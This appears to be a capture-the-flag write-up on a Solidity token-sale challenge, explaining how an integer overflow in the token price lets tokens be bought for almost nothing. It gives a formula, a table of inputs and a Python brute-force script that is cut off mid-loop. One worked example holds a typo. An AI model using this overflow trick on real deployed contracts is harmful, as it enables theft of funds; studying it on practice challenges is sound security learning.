 #### Solution

While _incredibly_ simple, this problem took me _days_ to solve, as I was not aware (or forgot) of a few things:

* Floating point numbers do not exist in Solidity (as of writing this).
* Operations in Solidity between whole numbers which would yield a floating point number are immediate rounded down at _every step_, so an arithmetic equation consisting of multiple operations would be applied a floor function at every step of the operation, e.g. $2 \div 3 * 7 \div 2 \rightarrow \lfloor\lfloor\lfloor 2 \div 23 \rfloor * 7 \rfloor \div 2 \rfloor$.
* It is extremely difficult to get a perfect 0 after an integer overflow using products, therefore, in order to solve this problem, it's nearly impossible that the price for which I'll be able to buy the tokens (each worth 1 ether) will be _exactly_ zero wei.
* I completely forgot that python will do things in the background with math, like for example: `1e18` is immediately considered a float, even though it's a whole number, therefore, to have `1e18` as an integer, I should be writing `int(1e18)`. 

To solve it:


All that's needed to be passed to `numTokens` is a value that when multiplied by $10^{18}$ will yield a number that we can:

1. Pay for in wei that is lower than  $10^{18}$ itself
2. As low as possible (ideally) as long as condition 1 holds

For this you can create a simple function that will be the base to the overflow exploit, for example:

$$f(x) = \lfloor (\frac{2^{256} * x}{10^{18}} + 1) * 10^{18}\rfloor\mod 2^{256}$$

Then optimize for $min(f(x))$ while $x > 0$. I did this by bruteforce and made a simple neat table with the best numbers I got:

|             f(x) |                           x | 
|-----------------:|----------------------------:|
|     265665118208 |                      549972 |
|     531330236416 |                     1099944 |
|     730579075072 |                     1512423 |
|     996244193280 |                     2062395 |
|    1261909311488 |                     2612367 |

I used this simple script to do it and then neatly pack it on one dataframe:

```python
from math import floor
import numpy as np
import pandas as pd

# make list to optimize
best_vals = {'ideal_overflow':[], 'ideal_overflow_multiplier':[], 'loop_range':[]}

# minimizing for the remainder gas to send
overflow_computation = lambda x: (floor(int(int(2**256)*x) // int(1e18)) + 1) * int(1e18) % int(int(2**256))
np_overflow_computation = np.vectorize(overflow_computation)

# loop a bunch of times
for i in range(1, 200):
    range_to_test = np.arange(i*int(5e5), (i+1)*int(5e5), 1)
    tested_range = np_overflow_computation(range_to_test)
    ideal_overflow = np.min(tested_range)
    ideal_overflow_multiplier = np.where(tested_range == ideal_overflow)

    # construct csv
```